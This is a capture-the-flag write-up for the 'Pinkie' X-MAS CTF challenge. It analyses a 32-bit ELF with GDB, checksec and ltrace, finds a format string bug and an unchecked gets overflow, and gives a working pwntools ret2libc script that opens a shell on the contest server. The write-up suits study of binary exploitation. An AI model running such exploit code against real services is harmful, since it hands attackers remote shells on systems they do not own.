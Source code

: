 ## exploit

In this challenge we have to exploit ELF 32 bit not stripped executable that returns 2 gifts: 
```
Here are some gifts from Santa: 0x8049940 0xf7e48da0
```

With GDB we can notice that the first address refers to a bunch of bytes in `.bss` section:

```
info symbol 0x8049940

section .bss of /home/vagrant/share/xmasCTF/Pinkie/pinkiegift.dms

gdb-peda$ x/40wx 0x8049940
0x8049940 <binsh>   :	0x00000000	0x00000000	0x00000000	0x00000000
0x8049950 <binsh+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049960 <binsh+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049970 <binsh+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049980 <binsh+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049990 <binsh+80>:	0x00000000	0x00000000	0x00000000	0x00000000
0x80499a0 <binsh+96>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Normally the `bss` section is not executable, it could be useful in order to place some shellcode but require a previous call to `mprotect` to execute that, or I could write with `gets` or other libc function some bytes and obtain all strings I need. 

The second gift is a real gift! An address to libc `system` procedure. So now i could try to search in `text` or `data` or `bss` section an `sh` strings and exploit executable without using the first gift. Moreover we can notice from the output of remote program, that ASLR is disabled, `system` is placed at the same address.


Ok now I only have to figure out where vulnerability is, with checksec we can see the following:

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

We've got no canary, and after executing program with ltrace I can notice that, after printing the gifts, it perform a gets followed by printf and another gets.

The printf output exactly what inserted with the first gets and here we have a format string vulnerability:

```
Here are some gifts from Santa: 0x8049940 0xf7de8850
%x
a7825
```
So we could for istance try to write printf GOT entry in order to call system instead of printf but I considered that: 

* No checks boundary are performed after gets
* The absence of canary permit to perform ret2libc to system passing `sh` string as argument

The exploit:

```python
#!/usr/bin/env python3
from pwn import *

r=remote('199.247.6.180', 10006)
out=r.recvuntil('\n')
print(out)
addr_system=out.split()[-1]
addr_bin_sh=out.split()[-2]
print(addr_system)
r.send(b"/////////////////////bin/sh"+b"\n")
r.send(p32(int(addr_system,16))*36+p32(0x8048f48)+b"\n")
r.interactive()

r.close()
```
##### flag: X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}




